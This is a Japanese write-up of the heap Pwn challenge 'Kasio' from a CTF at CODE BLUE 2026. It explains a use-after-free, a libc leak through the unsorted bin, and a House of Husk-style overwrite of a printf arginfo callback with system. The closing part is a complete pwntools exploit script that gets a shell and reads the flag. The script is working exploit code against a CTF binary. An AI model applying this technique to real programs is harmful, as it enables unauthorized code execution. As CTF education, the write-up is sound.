# はじめに

2026年11月にCODE BLUE 2026で開催されたHTB主催の[Hacker X Hacker CTF](https://ctf.hackthebox.com/event/details/code-blue-2026-3726)へチラッと参加しました。

この記事は、ファーストブラッドを獲得した「Kasio」というPwn問題についてのWriteupです。


※基本的にAIは補助的に利用できます。楽しむのがメインのCTFでした。

# 解析
とりあえず、バイナリが配られるので`pwninit`しときます。



`checksec`しときます。



この感じはHeap問の匂いがしました。久しぶりのPwnなので楽しめそう！

起動して何があるか確認してみたら結構あった。これはHeap！



`create`コマンドがallocate+writeで、`retire`がfree操作、`inspect`系がshow操作、`amned`がwrite操作かなとぱっと見判断できます。
ざっとGhidraで確認しました。



`calloc`で0x1000バイト固定確保してますわ。試してみる。



おおかた何となくわかった。ここで削除フラグなどがないことに気付く。UAFが成立しそう。

`0x1000`の大きさだとそのままunsorted binに入るので、すぐにlibcリークできそう。ここまで結構スラスラ思いついたので結構AIに毒されて訛ってはなさそう。





読み通り。libcリークに成功しました。writeも削除フラグなど確認してないのでUAFが成立しています。伝統的おじさんPwnerだと`__free_hook`を狙う感じなんですが、もう過去の話...2.43の前にはなすすべがなく、何処を書き換えようか悩むところです。レジストリをいじる感じでもないのでonegadget突っ込むのもなぁとか思ってたら、以下の珍しいものを発見した。



`register_printf_specifier`やて！？[House of Husk](https://ptr-yudai.hatenablog.com/entry/2020/04/02/013910)で見たことがあるやつ。これを使う？だいぶ前に見た手法なので思い出しがてら定義を確認する。

https://man.archlinux.org/man/printf_info.3type.en

独自のprintfフォーマット指定子を登録する関数で、２つの関数ポインタを引数に取ってヒープ確保するはず。確認する。



確保してそう。Ghidraのメモリマップとの位置関係も見ておく。











0x1940, 0x1780相対アドレスあってそう。丁度0x1000のチャンク作ってるので、Freeした後にこの`register_printf_specifier`呼べば、関数ポインタを上書きできそうやんとなる。これは`submit`で確保できる。

さっきのUAFでunsorted binを表示した後に`submit 1`でbinから構造体を確保する。



いけてる！ざっとこの格納位置を確認してメモる。



UAFで値も見えることを確認する。（あとでこれ使わないことに気付くんだが）



この`printf_arginfo_size_function`の位置を`system`として置き換えれば、２度目の`submit`で独自フォーマットのprintfが呼ばれ、そのタイミングで`arginfo`のコールバック、もとい`system`さんが実行される。

あとはこの引数をどうにかして`/bin/sh\x00`にするのだが、`struct printf_info`にちょうどintの`prec`と`width`があるので、４バイトごとに整数表現に分けてあげれば`system("/bin/sh")`を呼べそう。

# Exploit
とりあえず、試作Exploitを試して挙動を確認しつつ、アドレスなどを調整していく。

## unsorted bin leak
どれくらい調整すればいいか確認する。







`0x212ac8`分調整する

## printf_arginfo_size_function overwrite

`0x360`バイト分でちょっとずれてたので`0x358`に調整した。これでうまくいった。





`system`になってるぜ！



## Trigger system("/bin/sh")

勝ち申したわ



## Pwned



## Exploit Code

```python
from pwn import *
import time

context.log_level = "info"
elf = ELF('./kaiso_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
ld = ELF('ld-linux-x86-64.so.2', checksec=False)

gdb_script = '''
'''

rhost = '127.0.0.1'
rport = 1337

PROMPT = b'kaiso> '
SIZE_PROMPT = 'Page bytes [0-4096] (バイト数): '.encode()
DATA_PROMPT = 'Transmit page data (送信): '.encode()
FMT_PROMPT = 'Seal template (発券ひな形): '.encode()
RAW_HEADER = '--- RAW PAGE / 生ページ (4096 bytes) ---\n'.encode()

printf_arginfo_size_function_offset = 0x360 - 0x8
printf_function_offset = 0x800 + printf_arginfo_size_function_offset

def conn():
    if args.REMOTE:
        p = remote(rhost, rport)
    elif args.GDB:
        p = process(elf.path)
        gdb.attach(p, gdbscript=gdb_script)
    else:
        p = process(elf.path)
    return p

p = conn()
  
def create(contents):
    p.sendlineafter(PROMPT, b'create')
    p.sendlineafter(SIZE_PROMPT, str(len(contents)).encode())
    p.sendafter(DATA_PROMPT, contents)
    
def retire(index):
    p.sendlineafter(PROMPT, f'retire {index}'.encode())

def inspect_raw(index):
    p.sendlineafter(PROMPT, f'inspect {index} raw'.encode())
    p.recvuntil(RAW_HEADER)
    return p.recvn(0x1000)

def submit(index, fmt):
    p.sendlineafter(PROMPT, f'submit {index}'.encode())
    p.sendlineafter(FMT_PROMPT, fmt)
    
def amend(index, contents):
    p.sendlineafter(PROMPT, f'amend {index}'.encode())
    p.sendlineafter(SIZE_PROMPT, str(len(contents)).encode())
    p.sendafter(DATA_PROMPT, contents)
  
create(b'A' * 8)
create(b'B' * 8)
retire(0)

unsort = inspect_raw(0)[:8]
libc.address = u64(unsort) - 0x212ac8

log.success(f'unsorted FD: {u64(unsort):#x}; libc base: {libc.address:#x}')
log.info(f'system: {libc.sym["system"]:#x}')

submit(1, b'1st')

data = bytearray(inspect_raw(0))
callback = u64(data[printf_arginfo_size_function_offset: printf_arginfo_size_function_offset + 8])
formatter = u64(data[printf_function_offset:printf_function_offset + 8])

log.success(f'printf %k arginfo table overlapped: {callback:#x}')

data[printf_arginfo_size_function_offset:printf_arginfo_size_function_offset + 8] = p64(libc.sym['system'])
amend(0, bytes(data[:printf_arginfo_size_function_offset + 8]))

# gdb.attach(p, gdbscript=gdb_script)
# time.sleep(1)

precision = u32(b'/bin') # 1852400175
width = u32(b'/sh\x00') # 6845231

fmt = f'%{width}.{precision}k'.encode()
log.info(f'trigger: {fmt.decode()}')

submit(1, fmt)
log.success('trigger delivered: system("/bin/sh")')

if args.REMOTE:
    cmd = b'cat /flag.txt'
else:
    cmd = b'id'

uoooo = b'__KAISO_EXPLOIT_COMPLETE__'
p.sendline(cmd + b'; echo ' + uoooo)

p.interactive()
```

# 最後に
Pwnedした瞬間は震えたね。久しぶりのShell奪取の感覚というのかね。いいねPwn。
ファーストブラッド取ってだいぶ満足しました。

そのまま油断してたら某電気リスに抜かされてました（泣）

